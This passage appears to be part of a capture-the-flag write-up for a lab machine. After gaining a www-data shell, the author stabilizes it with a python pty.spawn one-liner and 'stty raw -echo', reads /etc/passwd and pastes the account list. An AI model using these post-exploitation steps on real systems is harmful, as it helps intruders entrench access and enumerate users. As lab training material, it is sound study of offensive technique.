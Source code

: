 ![[Pasted image 20231014115609.png]]

Now stabilize shell:
    1. Use `python -c 'import pty;pty.spawn("/bin/bash")'` to *spawn a more feature-rich bash shell*.
    2. Export `TERM=xterm` to *access terminal commands* like `clear`.
    3. Background the shell using Ctrl + Z.
    4. In your own terminal, use `stty raw -echo; fg` to *turn off terminal echo and foreground the shell*.

There is a user called `aubreanna` but we can't access to its files.

![[Pasted image 20231014120442.png]]

```
www-data@internal:/$ cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin

aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash

mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false


```
